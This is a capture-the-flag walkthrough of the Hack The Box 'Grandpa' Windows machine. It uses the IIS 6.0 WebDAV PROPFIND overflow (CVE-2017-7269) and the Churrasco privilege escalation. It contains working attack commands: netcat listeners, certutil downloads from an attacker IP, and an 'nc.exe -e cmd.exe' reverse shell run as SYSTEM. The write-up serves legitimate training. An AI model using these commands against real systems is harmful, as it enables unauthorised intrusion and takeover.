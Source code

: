 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
- **Exploits Used**:
  - [HTTP](HTTP.md) – WebDAV Support
  - **CVE-2017-7269** – [HTTP](HTTP.md) PROPFIND Buffer Overflow (RCE)
  - **CVE-2009-0078** – Local PrivEsc with `Churrasco.exe`

---

## 🧭 Recon

### 🔍 Nmap Scan
```bash
nmap -sV -sC -oA grandpa 10.10.10.14
```

**Result:**
```
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD COPY MOVE PROPFIND SEARCH LOCK UNLOCK
|_  Potentially risky methods: TRACE COPY MOVE PROPFIND SEARCH LOCK UNLOCK
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
```

IIS 6.0 with [HTTP](HTTP.md) **WebDAV** extensions is exposed — great target for known RCEs.

---

## 🔎 WebDAV Test – [HTTP](HTTP.md)

### 🌐 Test with `davtest`
```bash
davtest -url http://10.10.10.14
```

**Result:**  
No upload capability, but [HTTP](HTTP.md) verbs like `PROPFIND`, `SEARCH`, and `LOCK` are enabled.

---

## 🧨 Initial Foothold – [CVE-2017-7269 (PROPFIND RCE)](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/tree/master)

### 🛠️ Clone Exploit
```bash
git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269.git
cd iis6-exploit-2017-CVE-2017-7269
```

### ✏️ Rename if needed
```bash
mv iis6 reverse.py
```

### 📡 Set Up Listener
```bash
rlwrap nc -lnvp 4444
```

### 🚀 Launch Exploit (Over [HTTP](HTTP.md))
```bash
python2 reverse.py 10.10.10.14 80 10.10.14.10 4444
```

### 💥 Shell Received
```cmd
whoami
nt authority\network service
```

### 🧾 Grab User Flag
```cmd
type "C:\Documents and Settings\NetworkService\Desktop\user.txt"
```

---

## 🧱 Privilege Escalation – SYSTEM

### 📄 System Info
```cmd
systeminfo > info.txt
```

### 🔍 Find Privesc with `wes.py`
```bash
./wes.py info.txt
```

### 🎯 Vulnerability Found: **CVE-2009-0078**
- Exploits `SeImpersonatePrivilege`
- Works perfectly on this unpatched 2003 box

---

## 🚒 SYSTEM Shell via Churrasco

### 🧷 Download Churrasco
```bash
wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
```

### 📦 Transfer Payload & Listener
```bash
# On Attacker
updog -p 80

# On Victim
certutil -urlcache -split -f http://10.10.14.10/churrasco.exe churrasco.exe
certutil -urlcache -split -f http://10.10.14.10/nc.exe nc.exe
```

### 🛰️ Setup Second Listener
```bash
rlwrap nc -lnvp 5555
```

### 🚀 Execute SYSTEM Shell via Churrasco
```cmd
churrasco.exe -d "nc.exe 10.10.14.10 5555 -e cmd.exe"
```

### ✅ SYSTEM Confirmed
```cmd
whoami
nt authority\system
```

---

## 🏁 Grab Root Flag
```cmd
type "C:\Documents and Settings\Administrator\Desktop\root.txt"
```

---

## ✅ Summary

| Phase | Details |
|-------|---------|
| **Recon** | Found IIS 6.0 [HTTP](HTTP.md) server with WebDAV support |
| **Initial Access** | CVE-2017-7269 – Exploited PROPFIND via [HTTP](HTTP.md) for RCE |
| **Privesc** | CVE-2009-0078 – Used Churrasco to escalate to SYSTEM |
| **Flags** | Retrieved `user.txt` and `root.txt` |

---

Let me know if you'd like a `.md` version or one formatted for a report 📄✨